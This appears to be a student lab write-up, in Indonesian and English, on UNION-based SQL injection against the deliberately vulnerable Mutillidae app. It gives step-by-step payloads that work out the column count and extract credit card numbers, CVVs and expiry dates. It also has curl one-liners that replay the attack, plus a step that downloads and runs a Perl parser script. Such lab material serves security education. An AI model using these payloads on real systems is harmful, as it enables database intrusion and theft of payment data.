 # Lesson 8 : SQL Injection Union Exploit #1

## Start Web Browser Session to Mutillidae
- Buka browser kemudian akses Mutillidae sesuai ip metasploit pada alamat http://10.0.1.100/mutillidae
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/start_browser.png "Home page")

## Go To User Info Page
1. Go to User Info
   - **OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info** 
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/user_info.png "Home page")

## Configure Firefox Proxy Settings
1. View Preferences
   - **Edit --> Preferences**
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/preferences.png "Home page")
2. Advanced Settings
   - Pilih Menu **Advanced**
   - Pilih **Network** Tabs
   - Pilih **Settings**
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/network_tab.png "Home page")
3. Connection Settings
   - Gunakan **Manual proxy**
   - Pada kolom HTTP Proxy isikan **127.0.0.1**
   - Pada kolom Port **8080**
   - Centang bagian Use the proxy server for all protocols 
   - Klik **Ok**, kemudian Close
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/set_config_proxy.png "Home page")

## Configure Burpsuite Settings
1. Buka Aplikasi Burpsuite
   - Akan muncul halaman aplikasi, pilih next
   - Use Burp defaults, kemudian klik start Burp
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/use_default.png "Home page")
2. Configure proxy
   - Pilih tab proxy, kemudian options
   - Set port ke 8080 seperti berikut
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/proxy_port_8080.png "Home page")
3. Turn off intercept
   - Pilih tab intercept
   - Pastikan intercept button dalam keadaan off (**intercept is off**), jika dalam keadaan on maka set ke off
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/intercept_off.png "Home page")

## SQL Injection (Union Example #1)
1. Inspect the Name Textbox
   - Klik kanan pada textbox **Name**, kemudian inspect element
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/inspect.png "Home page")
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 100
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/change_size.png "Home page")
3. First Union SQL Injection Attempt
   - Pada kolom Textbox **Name** isikan **`' union select null -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol **View Account Details**
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/union_1.png "Home page")
4. SQL Error
	- Scroll kebawah untuk melihat pesan errornya
	- Perhatikan pesan errornya
	- Errornya terjadi karena perbedaan jumlah coloumn pada database
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/result_1.png "Home page")

## SQL Injection (Union Example #2)
1. Inspect the Name Textbox
   - Klik kanan pada textbox **Name**, kemudian inspect element
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/inspect.png "Home page")
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula **20** menjadi **100**
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/change_size.png "Home page")
3. Second Union SQL Injection Attempt
   - Pada kolom textbox **Name** isikan **`' union select null,null,null,null,null -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol **View Account Details**
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/union_2.png "Home page")
4. Viewing the Results
	- Scroll kebawah untuk melihat pesan errornya
	- Perhatikan pesan errornya
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/.png "Home page")

## SQL Injection (Union Example #3)
1. Inspect the Name Textbox
   - Klik kanan pada textbox **Name**, kemudian inspect element
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/inspect.png "Home page")
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula **20** menjadi **100**
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/change_size.png "Home page")
3. Second Union SQL Injection Attempt
   - Pada kolom textbox **Name** isikan **`' union select 1,2,3,4,5 -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol **View Account Details**
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/union_3.png "Home page")
4. Viewing the Results
	- Scroll kebawah untuk melihat hasilnya
	- Perhatikan hasilnya
		- Pada hasilnya, terdapat 1 record ditemukan dengan value seperti berikut:
			- Username=2
			- Password=3
			- Signature=4
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/result_2.png "Home page")

## SQL Injection (Union Example #4)
1. Inspect the Name Textbox
   - Klik kanan pada textbox **Name**, kemudian inspect element
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/inspect.png "Home page")
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 100
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/change_size.png "Home page")
3. Second Union SQL Injection Attempt
   - Pada kolom textbox **Name** isikan **`' union select ccid,ccnumber,ccv,expiration,null from credit_cards -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol **View Account Details**
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/union_4.png "Home page")
4. Viewing the Results
	- Scroll kebawah untuk melihat hasilnya
	- Perhatikan hasilnya
	- Pada hasilnya, terdapat 5 record ditemukan
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/result_3.png "Home page")

## SQL Injection (Union Example with Curl #5)
1. View Post Data (With Burp Suite)
   - Klik pada Tab **Proxy**
   - Klik pada Tab **History**
   - Klik cari line yang urlnya mengandung **/mutillidae/index.php?page=user-info.php** dengan Method GET
   - Klik pada Tab **Request**
   - Klik pada Tab **Raw**
   - Highligt text, kemudian klik kanan
   - Klik "Copy to File"
2. Save File
   - Save file di dalam folder **root**
   - File Name: **crack_cookies.txt**
   - Klik tombol **Save**
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/4/save_burp.png "Home page")
3. Use Curl to Display Usernames and Passwords
   - Buka terminal, jalankan perintah berikut : 
   ```bash
   curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.0.1.100/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'
   ```
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/run_curl.png "Home page")

## Perl Parser
   - Jalankan perintah berikut pada terminal :
   ```bash
   cd /root
   curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.0.1.100/mutillidae/index.php" | grep -i "Username="  > lesson8.txt
   cat lesson8.txt
   ```
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/cat_lesson.png "Home page")

## Download Parser
   - Jalankan perintah berikut pada terminal :
   ```bash
   cd /root
   wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson8/lesson8.pl.TXT
   mv lesson8.pl.TXT lesson8.pl
   chmod 700 lesson8.pl
   ```
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/download_perl.png "Home page")

## Run Perl Script
   - Jalankan perintah berikut pada terminal :
   ```bash
   ./lesson8.pl
   ```
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/run_perl.png "Home page")